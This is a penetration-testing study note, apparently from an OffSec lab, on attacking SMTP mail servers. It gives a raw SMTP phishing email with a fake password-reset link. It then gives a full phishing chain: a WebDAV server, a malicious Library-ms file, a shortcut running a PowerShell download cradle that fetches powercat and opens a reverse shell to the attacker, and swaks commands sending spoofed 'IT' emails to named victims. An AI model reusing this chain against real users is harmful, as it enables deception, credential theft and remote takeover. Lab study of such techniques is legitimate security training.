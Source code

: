 Also see [[143, 110 imap and pop3]]

#### Catch Sensitive Information
This may help catch cleartext credentials
Example -- [[Postfish]]
SMTP method
	Start listener
		`nc -lvnp 80`
	connect to smtp
		`nc -v <domain> 25
```
helo test
	250 postfish.off
MAIL FROM: it@postfish.off
	250 2.1.0 Ok
RCPT TO: brian.moore@postfish.off
	250 2.1.5 Ok
DATA
	354 End data with <CR><LF>.<CR><LF>
Subject: Password Reset

Hi Brian,

Please follow this link to reset your password: http://192.168.45.219/

Regards,
 
.
	250 2.0.0 Ok: queued as 6CE4B4543F
QUIT
```

#### Phishing with swaks -- reverse shell

Host WebDAV server
```
mkdir /home/kali/<any_dir_name>/webdav

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/<any_dir_name>/webdav/
```
we can verify this work by creating test.txt file and inserting into webdav dir, and visiting `127.0.0.1/<test_file>` in browser

Create malicious MS library file
	Connect to WINPREP via RDP as offsec:lab
	Open VSCode
	Create new text file on desktop named config.Library-ms
	use this code, modify IP accdess to ours
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<our_ip_address></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
-
	save and transfer (NOT A SHORTCUT) to `/home/kali/<any_directory>/webdav

Create shortcut file on WINPREP
	right click > new > shortcut
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<our_ip>:8000/powercat.ps1'); powercat -c <our_ip> -p 4444 -e powershell"
```
name: `install`
	transfer to kali into WebDAV directory

Copy powercat to any directory
	`cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 /path/to/<directory>

Start python3 server to host powercat file
	`cd /path/to/directory`
	`python3 -m http.server 8000


Start nc listener over 4444
	`nc -lvnp 4444`

Send email with swaks
	Create body.txt file in `/home/kali/<any_directory>` `# just do webdav...`
```
Hey!

Please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

IT
```


Send to victim user(s) (ie: daniela, marcus) spoofed as`<admin_user>`
```
sudo swaks -t <target1>@<domain.com> -t <target2>@<domain.com> --from <mail_server_user>@<domain.com> --attach @config.Library-ms --server <target_ip> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

Username: <mail_server_user>@<domain.com>
Password: <password>
```
then just wait


Receive reverse shell


